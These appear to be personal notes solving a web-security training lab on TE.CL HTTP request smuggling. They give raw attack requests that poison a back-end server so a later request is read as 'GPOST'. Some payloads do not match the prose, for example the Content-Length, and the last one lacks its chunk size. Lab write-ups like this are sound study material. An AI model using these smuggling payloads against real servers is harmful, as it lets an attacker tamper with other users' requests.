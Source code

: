 Modify the attacker request by indicating the chunk size is 1, followed by G, followed by the end of the chunked message via a terminating chunk - make sure the content length is updated to `3` to indicate that the message ends after the `1\r\n` so the back-end is poisoned with the leftovers:

```http
POST / HTTP/1.1
Host: 0ac700d404e6835e81855c1c00af00e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Transfer-Encoding: chunked

1
g
0


```

After sending it and a normal request, it returns an error stating an unrecognized GPOST method:

![[G0POST.png]]

When sending the attack request, the front-end uses TE chunked and looks for the `0\r\n\r\n` and forwards the entire request body on to the back-end. The back-end uses CL of 3 so it assumes the request body ends after the `1\r\n\r\n` which means it gets poisoned by the G0 and two CRLFs that are left on the back-end server.

When sending the normal request, the normal request is appended to the prefix from the previous attack request which contains `G0`:

![[G0POST Method.png]]

In the attack request, modify the payload to poison the back-end server with a GPOST request by adding another POST request below, changing the request method to GPOST and removing the Host header:

```http
POST / HTTP/1.1
Host: 0ac700d404e6835e81855c1c00af00e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

```

To add the body, indicate the chunked message has ended via the terminating chunk of `0\r\n\r\n`. The CL and chunk size need to be fixed:

```http
POST / HTTP/1.1
Host: 0ac700d404e6835e81855c1c00af00e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

0


```
